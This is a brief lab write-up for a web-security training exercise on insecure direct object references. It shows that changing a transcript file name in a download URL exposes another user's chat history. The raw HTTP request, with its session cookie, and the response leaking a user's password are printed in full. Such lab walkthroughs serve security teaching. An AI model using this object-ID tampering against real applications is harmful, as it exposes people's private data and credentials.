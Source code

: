 # Lab: Insecure direct object references

- The application allows downloading the chat-history when we click on `View transcript` at `/chat`.
- If we modify the static file name, we can access chat history for Carlos that discloses his password.

```
GET /download-transcript/1.txt HTTP/1.1
Host: acf51fa91fed84f8c0392d090053000b.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acf51fa91fed84f8c0392d090053000b.web-security-academy.net/chat
Connection: close
Cookie: session=TBHLI5jBMJrI88wwn0YhXOCNLcieNclS
```

```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Content-Disposition: attachment; filename="1.txt"
Connection: close
Content-Length: 520

CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is dkgseszfcy8bk3nnbg43. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
Hal Pline: Do one!
```

